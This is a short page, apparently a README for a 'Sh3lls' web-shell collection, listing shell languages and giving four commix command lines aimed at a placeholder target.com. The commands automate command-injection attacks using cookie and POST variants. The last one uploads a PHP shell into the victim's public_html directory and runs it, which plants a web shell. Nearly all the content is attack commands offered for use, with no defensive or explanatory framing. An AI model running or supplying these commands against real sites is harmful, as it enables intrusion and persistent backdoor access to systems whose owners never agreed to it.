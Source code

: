# Sh3lls ...

### CON:

* `php`
* `aspx`
* `js`
* `cpp`

### ANY:

* `commix`

      commix.py -u "http://target.com/post.php?id=353548" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --cookie="COOKIE_HERE" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --data="POST HERE" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --level 3 -v 1 --random-agent --batch --all --cookie="" --data="POST" --file-write="/opt/backbox/shell/xt4t.php" --file-dest="/home/target_user_name_here/public_html/xt4t.php" --os-cmd="php -f /home/target_user_name_here/public_html/xt4t.php"
